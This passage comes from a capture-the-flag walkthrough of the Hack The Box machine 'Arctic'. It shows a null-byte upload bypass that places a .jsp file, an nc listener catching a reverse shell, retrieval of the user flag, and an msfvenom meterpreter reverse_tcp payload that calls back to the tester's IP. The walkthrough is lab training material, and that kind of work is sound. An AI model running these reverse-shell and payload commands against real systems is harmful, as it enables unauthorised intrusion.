 Using the null byte allowed the upload of the EU.jsp file as well as the WVSKVYWB.txt file.

## Initial Shell

On a new terminal start a nc listener:

```text
root@kali:~/htb/machines/arctic# nc -lvnp 4444
listening on [any] 4444 ...
```

Now go back to web page and load the .jsp file:

![arctic-browser-jsp](/assets/images/2020-08-02-22-05-02.png)

Page will hang for 30 seconds as before, but then will open a reverse shell to my nc listener:

```text
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.11] 49342
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```

## User Flag

Let's see who we have connected as:

```text
C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

We are user tolis, let's grag the flag:

```text
C:\ColdFusion8\runtime\bin>more c:\users\tolis\Desktop\user.txt
more c:\users\tolis\Desktop\user.txt
<<HIDDEN>>
```

## Privilege Escalation

We are currently connected via a meterpreter shell as the user tolis. The next step is to upload a fully fledged reverse shell so we can get privilege escalation. Create a payload with msfvenom:

```text
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.31 LPORT=444 -f exe > met.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
```

Now start an http server in this folder so we can get to the file:
